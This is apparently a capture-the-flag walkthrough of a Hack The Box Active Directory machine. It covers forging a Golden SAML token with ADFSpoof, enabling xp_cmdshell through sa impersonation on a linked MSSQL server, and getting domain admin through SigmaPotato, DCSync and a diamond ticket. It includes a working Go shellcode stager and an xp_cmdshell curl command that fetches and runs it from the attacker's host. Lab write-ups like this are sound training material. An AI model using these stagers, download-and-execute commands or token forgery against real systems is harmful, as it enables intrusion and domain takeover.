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
[-] Encrypted Token Signing Key End

[-] Certificate value: 0818F900456D4642F29C6C88D26A59E5A7749EBC
[-] Store location value: CurrentUser
[-] Store name value: My

## Reading The Issuer Identifier
[-] Issuer Identifier: http://federation.ghost.htb/adfs/services/trust
[-] Detected AD FS 2019
[-] Uncharted territory! This might not work...
## Reading Relying Party Trust Information from Database
[-]
core.ghost.htb
 ==================
    Enabled: True
    Sign-In Protocol: SAML 2.0
    Sign-In Endpoint: https://core.ghost.htb:8443/adfs/saml/postResponse
    Signature Algorithm: http://www.w3.org/2001/04/xmldsig-more#rsa-sha256
    SamlResponseSignatureType: 1;
    Identifier: https://core.ghost.htb:8443
    Access Policy: <PolicyMetadata xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://schemas.datacontract.org/2012/04/ADFS">
  <RequireFreshAuthentication>false</RequireFreshAuthentication>
  <IssuanceAuthorizationRules>
    <Rule>
      <Conditions>
        <Condition i:type="AlwaysCondition">
          <Operator>IsPresent</Operator>
        </Condition>
      </Conditions>
    </Rule>
  </IssuanceAuthorizationRules>
</PolicyMetadata>


    Access Policy Parameter:

    Issuance Rules: @RuleTemplate = "LdapClaims"
@RuleName = "LdapClaims"
c:[Type == "http://schemas.microsoft.com/ws/2008/06/identity/claims/windowsaccountname", Issuer == "AD AUTHORITY"]
 => issue(store = "Active Directory", types = ("http://schemas.xmlsoap.org/ws/2005/05/identity/claims/upn", "http://schemas.xmlsoap.org/claims/CommonName"), query = ";userPrincipalName,sAMAccountName;{0}", param = c.Value);
```

Now i have the blob and the keys

I now need to ensure both of these things are formatted correctly before i can use them

```python
FA-DB-3A-06-DD-CD-40-57-DD-41-7D-81-07-A0-F4-B3-14-FA-2B-6B-70-BB-BB-F5-28-A7-21-29-61-CB-21-C7
8D-AC-A4-90-70-2B-3F-D6-08-D5-BC-35-A9-84-87-56-D2-FA-3B-7B-74-13-A3-C6-2C-58-A6-F4-58-FB-9D-A1
```

So both of these keys need to have the dashes removed, and the hex form converted back to decimal

```python
echo 'FA-DB-3A-06-DD-CD-40-57-DD-41-7D-81-07-A0-F4-B3-14-FA-2B-6B-70-BB-BB-F5-28-A7-21-29-61-CB-21-C7' | tr -d '-'
FADB3A06DDCD4057DD417D8107A0F4B314FA2B6B70BBBBF528A7212961CB21C7

echo '8D-AC-A4-90-70-2B-3F-D6-08-D5-BC-35-A9-84-87-56-D2-FA-3B-7B-74-13-A3-C6-2C-58-A6-F4-58-FB-9D-A1' | tr -d '-'
8DACA490702B3FD608D5BC35A9848756D2FA3B7B7413A3C62C58A6F458FB9DA1
```

Now the dashes are removed ill convert the string back to decimal

```python
echo 'FADB3A06DDCD4057DD417D8107A0F4B314FA2B6B70BBBBF528A7212961CB21C7' | xxd -r -p | tee privkey1.bin

echo '8DACA490702B3FD608D5BC35A9848756D2FA3B7B7413A3C62C58A6F458FB9DA1' | xxd -r -p | tee privkey2.bin
```

Now both keys are set, i can move onto the encrypted blob

```python
echo 'AAAAAQAAAAAEEAF...[SNIP]...7xDevBN/BEsNEUSTXxm' | base64 -d | tee enc_blob.bin
```

The blob just needs base64 decoding then placining into a file

Now everything is setup i can run ADFSpoof

```python
python ./ADFSpoof.py \
       --blob ../enc_blob.bin ../privkey2.bin \
       --server federation.ghost.htb saml2 \
       --endpoint https://core.ghost.htb:8443/adfs/saml/postResponse \
       --rpidentifier https://core.ghost.htb:8443 \
       --assertion '<Attribute Name="http://schemas.xmlsoap.org/ws/2005/05/identity/claims/upn"><AttributeValue>administrator@ghost.htb</AttributeValue></Attribute><Attribute Name="http://schemas.xmlsoap.org/claims/CommonName"><AttributeValue>Administrator</AttributeValue></Attribute>' \
       --nameidformat "urn:oasis:names:tc:SAML:2.0:assertion" \
       --nameid administrator@ghost.htb
 
    ___    ____  ___________                   ____
   /   |  / __ \/ ____/ ___/____  ____  ____  / __/
  / /| | / / / / /_   \__ \/ __ \/ __ \/ __ \/ /_  
 / ___ |/ /_/ / __/  ___/ / /_/ / /_/ / /_/ / __/  
/_/  |_/_____/_/    /____/ .___/\____/\____/_/     
                        /_/                        
 
A tool to for AD FS security tokens
Created by @doughsec

PHNhbWxwOlJlc3BvbnNlIHhtbG5zO...[SNIP]...ZXNwb25zZT4%3D
```

After an issue with the requirements i am able to forge it

I had to make a valid logon attempt using `justin.bradley` to capture a valid SAMLresponse, and after decoding it i can grab the value needed for the `--assertion` flag

Ill use a random `--nameidformat` found in an article and the `--name-id` of the admin

```python
curl -X POST https://core.ghost.htb:8443/adfs/saml/postResponse -H 'Cookie: connect.sid=s%3ADijqbGlwxzhTnK29JZ0VZvnx9TYwh3va.FxridJsxX6s1NHTLebRRAeZD%2Bd53hpyA%2BsjJaazMi7o' -H 'Content-Type: application/x-www-form-urlencoded' --data 'SAMLResponse=PHNhbWxwOlJlc3BvbnNlIHhtbG5zO...[SNIP]...ZXNwb25zZT4%3D' -k -v

...[SNIP]...

Set-Cookie: connect.sid=s%3AZofc8mo4eJ80wJZi09GJBqyxzjim4Taq.p9vMnlFd6Tryitg%2BFj9ekMTRbWvgxaMBgbDXljcKFlw; Path=/; HttpOnly
```

I now have a cookie value i can use

I used the cookie that was preset on the `https://core.ghost.htb/` page and set the correct content type

## Administrator on the `core.ghost.htb` service

Now placing this cookie into the dev tools `connect.sid` entry and removing `/login` to `/` i get access



It syas there are two databases, these are likely to be linked databases

## Impersonating the `sa` account on the linked server



Using the query `EXEC sp_linkedservers;`

There is definitely a linked server here

https://www.adversify.co.uk/blog/escalating-privileges-via-linked-database-servers

https://hacktricks.wiki/en/network-services-pentesting/pentesting-mssql-microsoft-sql-server/index.html

https://hacktricks.wiki/en/windows-hardening/active-directory-methodology/abusing-ad-mssql.html



Running the query `EXEC sp_helplinkedsrvlogin '<LINK_NAME>';` gave this response, this tells me the account i am running as on the linked server

This user is not a sysadmin on the linked server



```python
EXEC ('
SELECT 
    p.name AS GranteeName,
    p.type_desc AS GranteeType,
    p2.name AS ImpersonatedLogin,
    prm.permission_name,
    prm.state_desc
FROM sys.server_permissions prm
JOIN sys.server_principals p ON prm.grantee_principal_id = p.principal_id
JOIN sys.server_principals p2 ON prm.major_id = p2.principal_id
WHERE prm.permission_name = ''IMPERSONATE'';
') AT [PRIMARY];
```

Running this query im checking for any impersonation on that linked server, as seen from the screenshot `bridge_corp` can impersonate `sa` on the linked server

```python
EXEC ('
EXECUTE AS LOGIN = ''sa'';
EXEC sp_configure ''show advanced options'', 1;
RECONFIGURE;
EXEC sp_configure ''xp_cmdshell'', 1;
RECONFIGURE;
') AT [PRIMARY];
```

Ill enabled xp_cmdshell on the linked server using impersonation

Now its enabled i can run commands



```python
EXEC ('EXECUTE AS LOGIN = ''sa''; EXEC xp_cmdshell ''whoami'';') AT [PRIMARY];
```

I now have RCE

I cannot send a powershell reverse shell, i think its because the payload is too long

I have tried with nc64.exe and i think defender is running

## SYSTEM beacon on `primary`

So to do this ill setup the teamserver and connect to it through the client, then set a listener on port 443

Then ill generate some shellcode to be ran on the system

```python
// +build windows
			
package main
			
import (
	"io"
	"net/http"
	"syscall"
	"unsafe"
	)
			
var (
	kernel32            = syscall.NewLazyDLL("kernel32.dll")
	procVirtualAlloc    = kernel32.NewProc("VirtualAlloc")
	)
			
const (
	MEM_COMMIT             = 0x1000
	MEM_RESERVE            = 0x2000
	PAGE_EXECUTE_READWRITE = 0x40
	)
			
func downloadShellcode(url string) ([]byte, error) {
	resp, err := http.Get(url)
	if err != nil {
		return nil, err
		}
	defer resp.Body.Close()
			
	return io.ReadAll(resp.Body)
	}
			
func executeShellcode(shellcode []byte) {
	addr, _, err := procVirtualAlloc.Call(
		0,
		uintptr(len(shellcode)),
		MEM_COMMIT|MEM_RESERVE,
		PAGE_EXECUTE_READWRITE,
	)
	if addr == 0 {
		panic(err)
	}
			
	// Copy shellcode into allocated memory
	for i := 0; i < len(shellcode); i++ {
		*(*byte)(unsafe.Pointer(addr + uintptr(i))) = shellcode[i]
	}
		
	// Execute shellcode
	syscall.Syscall(addr, 0, 0, 0, 0)
}
		

func main() {
	url := "http://10.10.14.61/http.x64.bin"
			
	shellcode, err := downloadShellcode(url)
	if err != nil {
		panic(err)
	}
			
	executeShellcode(shellcode)
}
```

Ill use this go code as the stager and call this stager.go, it will reach out to my python web server and grab the shellcode then load it into memory and execute it

```python
GOOS=windows GOARCH=amd64 CGO_ENABLED=0 go build -ldflags="-H windowsgui" -o stager.exe stager.go
```

This has compiled the code into stager.exe

```python
python3 -m http.server 80
```

Then ill set up the web server

Now i can run the query through xp_cmdshell

```python
EXEC ('EXECUTE AS LOGIN = ''sa''; EXEC xp_cmdshell "curl http://10.10.14.61/stager.exe -o C:\Temp\stager.exe && C:\Temp\stager.exe"') AT [PRIMARY];
```

This will go to my web server get the stager and save it in the `C:\Temp` directory i made, then execute it, the stager will then run and reach back the webserver again and get the shellcode and load it into memory

```python
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.231.105 - - [29/Aug/2026 18:09:39] "GET /stager.exe HTTP/1.1" 200 -
10.129.231.105 - - [29/Aug/2026 18:09:46] "GET /http.x64.bin HTTP/1.1" 200 -
```

This shows the flow of the attack


I now have a beacon

```python
+-------------------------------------------------------------------------------------+

[29/08 18:12:58] ethan [25877138] beacon > whoami
[29/08 18:12:58] [*] BOF implementation: whoami /all
[29/08 18:13:00] [*] Agent called server, sent [6.56 Kb]
[29/08 18:13:01] [+] BOF output

UserName		SID
====================== ====================================
NT Service\MSSQLSERVER	S-1-5-80-3880718306-3832830129-1677859214-2598158968-1052248003


GROUP INFORMATION                                 Type                     SID                                          Attributes               
================================================= ===================== ============================================= ==================================================
Mandatory Label\High Mandatory Level              Label                    S-1-16-12288                                  Mandatory group, Enabled by default, Enabled group, 
Everyone                                          Well-known group         S-1-1-0                                       Mandatory group, Enabled by default, Enabled group, 
BUILTIN\Pre-Windows 2000 Compatible Access        Alias                    S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group, 
BUILTIN\Users                                     Alias                    S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\SERVICE                              Well-known group         S-1-5-6                                       Mandatory group, Enabled by default, Enabled group, 
CONSOLE LOGON                                     Well-known group         S-1-2-1                                       Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\Authenticated Users                  Well-known group         S-1-5-11                                      Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\This Organization                    Well-known group         S-1-5-15                                      Mandatory group, Enabled by default, Enabled group, 
LOCAL                                             Well-known group         S-1-2-0                                       Mandatory group, Enabled by default, Enabled group, 
NT SERVICE\ALL SERVICES                           Well-known group         S-1-5-80-0                                    Mandatory group, Enabled by default, Enabled group, 


Privilege Name                Description                                       State                         
============================= ================================================= ===========================
SeAssignPrimaryTokenPrivilege Replace a process level token                     Disabled                      
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process                Disabled                      
SeMachineAccountPrivilege     Add workstations to domain                        Disabled                      
SeChangeNotifyPrivilege       Bypass traverse checking                          Enabled                       
SeImpersonatePrivilege        Impersonate a client after authentication         Enabled                       
SeCreateGlobalPrivilege       Create global objects                             Enabled                       
SeIncreaseWorkingSetPrivilege Increase a process working set                    Disabled
[29/08 18:13:01] [+] BOF finished

+--- Task [25877138] closed ----------------------------------------------------------+
```

Ill run the `whoami` BOF in adaptix and i see i have SeImpersonate

Ill use SigmaPotato to abuse the privilege

https://github.com/tylerdotrar/SigmaPotato

Ill get a shell as SYSTEM thanks to SigmaPotato

## Domain Admin

```python
evil-winrm -i dc01.ghost.htb -u Administrator -H '1cdb17d5c14ff69e7067cffcc9e470bd'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami
ghost\administrator
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```

Then performing a diamond ticket attack using my beacon and the built in BOFs to get domain admin

This was first accomplished by doing a DCSync attack on the `PRIMARY` server since i was SYSTEM and getting the aes256 key of the krbtgt user account of the `corp.ghost.htb` domain

Then using it to perform a diamond ticket to get Domain admin!
